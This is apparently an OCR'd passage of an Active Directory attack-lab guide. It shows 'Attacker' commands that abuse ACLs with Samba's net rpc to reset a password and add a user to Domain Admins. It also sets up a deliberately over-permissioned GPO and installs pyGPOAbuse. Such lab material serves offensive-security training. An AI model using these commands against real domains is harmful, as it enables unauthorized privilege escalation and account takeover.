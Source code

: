 
##### Attacker
1. Install the net tool from Samba
```bash
sudo apt-get install samba
```
2. Exploit ACLs
```bash
# Reset Tyrell Wellick password
net rpc password hank.schrader -U polaris.local/walter.white -S 192.168.122.10

# Add Eliot Alderson to the Domain Admin group
net rpc group addmem "Domain Admins" "walter.white" -U polaris.local/hank.schrader%sHyangja@10 -S 192.168.122.10
```

#### GPO
1. Open *Group Policy Management*. Create a new Group Policy in *Group Policy Objects*. Link it to the Domain. Edit the Group Policy to do something such as setting the wallpaper.

**OR**

Apply the following configurations in a powershell window.

```bash
New-GPO -Name "Wallpaper Policy" -comment "Change Wallpaper" 
New-GPLink -Name "Wallpaper Policy" -Target "DC=polaris,DC=local"
#https://www.thewindowsclub.com/set-desktop-wallpaper-using-group-policy-and-registry-editor
Set-GPRegistryValue -Name "Wallpaper Policy" -key "HKEY_CURRENT_USER\Control Panel\Colors" -ValueName Background -Type String -Value "100 175 200"
#Set-GPPrefRegistryValue -Name "StarkWallpaper" -Context User -Action Create -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System" -ValueName Wallpaper -Type String -Value "C:\tmp\GOAD.png"

Set-GPRegistryValue -Name "Wallpaper Policy" -key "HKEY_CURRENT_USER\Control Panel\Desktop" -ValueName Wallpaper -Type String -Value ""
#Set-GPPrefRegistryValue -Name "StarkWallpaper" -Context User -Action Create -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System" -ValueName WallpaperStyle -Type String -Value "4"

Set-GPRegistryValue -Name "Wallpaper Policy" -Key "HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\CurrentVersion\WinLogon" -ValueName SyncForegroundPolicy -Type DWORD -Value 1

# Allow tyrell.wellick to Edit Settings of the GPO
# https://learn.microsoft.com/en-us/powershell/module/grouppolicy/set-gppermission?view=windowsserver2022-ps
Set-GPPermissions -Name "Wallpaper Policy" -PermissionLevel GpoEditDeleteModifySecurity -TargetName "hank.schrader" -TargetType "User"
```

###### Attacker
1. Install pyGPOAbuse to abuse the GPO.
```bash
git clone https://github.com/Hackndo/pyGPOAbuse.git
python3 -m venv gpoenv
source gpoenv/bin/activate
cd pyGPOAbuse
python3 -m pip install -r requirements.txt
```
